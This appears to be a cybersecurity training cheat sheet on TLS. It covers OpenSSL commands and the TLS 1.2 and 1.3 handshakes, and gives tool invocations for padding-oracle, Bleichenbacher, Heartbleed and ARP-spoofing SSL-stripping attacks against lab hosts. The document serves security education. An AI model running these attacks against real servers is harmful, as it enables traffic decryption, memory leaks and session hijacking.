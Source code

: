 ## OpenSSL

| Command | Description |
| --- | --- |
| `openssl genrsa -out key.pem 2048` | Generate 2048 Bit RSA key |
| `openssl s_client -connect hackthebox.com:443 \| openssl x509 > hackthebox.pem` | Download certificate of web server |
| `openssl x509 -outform der -in hackthebox.pem -out hackthebox.der` | Convert PEM certificate to DER format |
| `openssl crl2pkcs7 -nocrl -certfile hackthebox.pem -out hackthebox.p7` | Convert PEM certificate to PKCS#7 format |
| `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out selfsigned.pem -sha256 -days 365` | Create self-signed certificate |
| `openssl rsa -in rsa.pem -pubout > rsa_pub.pem` | Extract public key from RSA key-pair |
| `openssl rsautl -encrypt -inkey rsa_pub.pem -pubin -in msg.txt -out msg.enc` | Encrypt file with RSA public key |
| `openssl rsautl -decrypt -inkey rsa.pem -in msg.enc > decrypted.txt` | Decrypt file with RSA private key |

## TLS 1.2 Handshake

| Message | Description |
| --- | --- |
| ClientHello | Contains ClientRandom, Cipher Suites supported by client |
| ServerHello | Contains TLS version, Cipher Suite for session, ServerRandom |
| Certificate | Contains server certificate |
| ServerKeyExchange | Contains server key share (only for PFS cipher suites) |
| ServerHelloDone | Tells client that the ServerHello is complete |
| ClientKeyExchange | Contains client key share |
| ChangeCipherSpec | Concludes handshake, all subsequent messages are protected |

## TLS 1.3 Handshake

| Message | Description |
| --- | --- |
| ClientHello | Contains ClientRandom, Cipher Suites supported by client, client key share |
| ServerHello | Contains TLS version, Cipher Suite for session, ServerRandom, server key share |
| Finished | Concludes handshake |

## Padding Oracles

| Command | Description |
| --- | --- |
| `padbuster http://127.0.0.1:4000/admin "AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0=" 16 -encoding 0 -cookies "user=AAAAAAAAAAAAAAAAAAAAAJQB/nhNEuPuNC8ox7cN1z0="` | Run padbuster with an encrypted sample with block size 16 |

Parameters:

- specify block length
- specify encoding with `-encoding` flag
- specify location of ciphertext with `-cookies` or `-post` flags
- specify plaintext to encrypt with `-plaintext` flag
- specify `-usebody` flag to analyze response content

## POODLE

SSL 3.0 padding:

- arbitrary padding bytes
- last byte is the length of padding excluding the length itself
- Example for block size 8: `DEADBEEF` -> `DEADBEEF00000003`

## Bleichenbacher

| Command | Description |
| --- | --- |
| `java -jar bleichenbacher-1.0.0.jar -pcap ./bleichenbacher.pcap -executeAttack` | Run Bleichenbacher attack from pcap file |
| `java -jar bleichenbacher-1.0.0.jar -executeAttack -connect 127.0.0.1:443 -encrypted_premaster_secret <SNIP>` | Run Bleichenbacher attack against server with encrypted premaster secret |
| `echo -n 214[...]3a8 \| awk -F '0303' '{print "0303"$2}'` | Extract unpadded premaster secret from padded premaster secret |
| `PMS_CLIENT_RANDOM <client_random> <premaster_secret>` | Wireshark Key file syntax |

## Heartbleed

| Command | Description |
| --- | --- |
| `java -jar heartbleed-1.0.0.jar -connect 127.0.0.1:443 -executeAttack -heartbeats 10` | Run Heartbleed attack |

## SSL Stripping

| Command | Description |
| --- | --- |
| `sudo arpspoof -i docker0 172.17.0.5` | Run ARP spoofing attack on interface `docker0` targeting `172.17.0.5` |
| `Strict-Transport-Security: max-age=31536000` | HSTS header syntax |

## Testing TLS Configuration

| Command | Description |
| --- | --- |
| `bash testssl.sh https://hackthebox.com` | Test TLS configuration of a website |

TLS Best Practices:

- do not offer SSL 2.0 or SSL 3.0
- do not offer TLS 1.0 or TLS 1.1
- no NULL cipher suites
- no EXPORT cipher suites
- prefer PFS cipher suites
- prefer GCM mode over CBC mode